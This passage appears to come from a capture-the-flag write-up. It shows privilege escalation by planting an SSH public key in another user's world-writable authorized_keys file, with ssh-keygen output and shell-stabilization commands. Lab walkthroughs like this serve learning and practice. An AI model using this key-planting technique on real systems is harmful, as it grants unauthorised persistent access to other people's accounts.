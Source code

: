 So we have to escalate permissions.

If we go to /home/comte/.ssh and we check for permission we can read an write authorised_keys (<span style="color: rgb(224, 62, 45);">UNREALISTIC</span>) :

```
www-data@ip-10-10-8-70:/home/comte/.ssh$ ls -la
ls -la
total 8
drwxr-xr-x 2 comte comte 4096 Mar 25  2024 .
drwxr-xr-x 7 comte comte 4096 Apr  4  2024 ..
-rw-rw-rw- 1 comte comte    0 Mar 25  2024 authorized_keys

```

## SSH KeyGen

We can use [[SSH-KeyGen]] to generate a key (skip everything with enter and go) :

```
─$ ssh-keygen            
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/hax/.ssh/id_ed25519): 
Enter passphrase for "/home/hax/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/hax/.ssh/id_ed25519
Your public key has been saved in /home/hax/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:hEr0UZgozVxEGCxB7tgK2SrIhLr1f8N+NCFlFAGprfU hax@HaxonKali
The key's randomart image is:
+--[ED25519 256]--+
| .o*oB=+o++o     |
| .o.B.oo. o      |
|  .o. oo.o       |
|.* . ...+ .      |
|=.+ .  oSo .     |
|*o    .   E      |
|*..    . . .     |
|.o .    + .      |
|.   ...o.o       |
+----[SHA256]-----+
```

Now we can search for the key and copy it to our working dir :

```
└─$ cat /home/user/.ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5CPIfXujh1QKKXqanmQiO5bsibAXPNnnBj8Dx4yXTj user@kali

```

## Stabilize the shell

For the [[Shell Stabilization]] first we need to execute `export TERM=xterm` then `python3 -c 'import pty;pty.spawn("/bin/bash")'` then ctrl+z and `stty raw -echo;fg` and reset + enter
